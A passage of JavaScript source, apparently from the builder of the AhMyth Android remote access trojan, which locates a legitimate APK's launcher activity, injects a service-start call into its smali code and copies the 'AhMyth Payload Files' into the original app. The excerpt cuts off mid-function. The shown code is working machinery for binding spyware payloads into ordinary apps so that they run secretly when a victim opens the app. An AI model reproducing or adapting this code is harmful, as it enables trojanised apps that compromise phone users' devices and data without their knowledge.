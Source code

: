 ```js  
                var launcherPath = stdout.substring(stdout.indexOf("./") + 2).trim("\n");
                if (error !== null) {
                    $appCtrl.Log("Unable to Locate the Launcher Activity...", CONSTANTS.logStatus.FAIL);
                    $appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
                    $appCtrl.Log();
                    return;
                } else if (launcherPath) {
                    $appCtrl.Log("Launcher Activity Found: " + launcherPath, CONSTANTS.logStatus.SUCCESS);
                    $appCtrl.Log();
                }


                $appCtrl.Log("Fetching Launcher Activity...")
                $appCtrl.Log();
                fs.readFile(path.join(apkFolder, launcherPath), 'utf8', (error, data) => {
                    if (error) {
                        $appCtrl.Log('Reading Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
                    	$appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
                        $appCtrl.Log();
                        return;
                        }

                        var regex = /\/(\S+)\./;
                        var str = (apkFolder, launcherPath);
                        var m = str.match(regex);

                        var startService = CONSTANTS.serviceSrc + apkFolder.split(apkFolder).join((m[1])) + CONSTANTS.serviceStart;


                        var key = CONSTANTS.orgAppKey;
                        $appCtrl.Log("Modifiying Launcher Activity...");
                        $appCtrl.Log();
                        var output = data.substring(0, data.indexOf(key) + key.length) + startService + data.substring(data.indexOf(key) + key.length);
                        fs.writeFile(path.join(apkFolder, launcherPath), output, 'utf8', (error) => {
                            if (error) {
                                $appCtrl.Log('Modifying Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
                                $appCtrl.Log();
                                return;
                            }

                            var regex = /[^/]+\//;
                            var str = (apkFolder, launcherPath);
                            var m = str.match(regex);

                            var smaliFolder = m[0];

                            $appCtrl.Log("Copying AhMyth Payload Files to Orginal APK...");
                            $appCtrl.Log();
                            fs.copy(path.join(CONSTANTS.ahmythApkFolderPath, "smali"), path.join(apkFolder, smaliFolder), (error) => {
                                if (error) {
                                    $appCtrl.Log('Copying Failed!', CONSTANTS.logStatus.FAIL);
                                    $appCtrl.Log();
                                    return;
```